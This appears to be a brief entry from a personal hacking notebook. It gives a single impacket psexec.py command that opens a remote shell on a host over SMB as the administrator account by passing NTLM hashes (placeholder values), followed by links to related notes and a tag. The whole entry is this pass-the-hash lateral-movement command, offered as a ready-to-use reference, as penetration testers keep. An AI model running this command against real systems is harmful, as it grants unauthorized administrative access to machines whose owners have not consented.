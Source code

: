 # impacket psexec get remote shell over SMB with administrator account
```bash
psexec.py administrator@$IP -hashes abcd123abcd123abcd123abcd123abcd:abcd123abcd123abcd123abcd123abcd
```

# References
- [20221003150600](/zet/20221003150600/) impacket
- ~/kb/hacking/commands/impacket-commands.md

Tags:
    #assorted

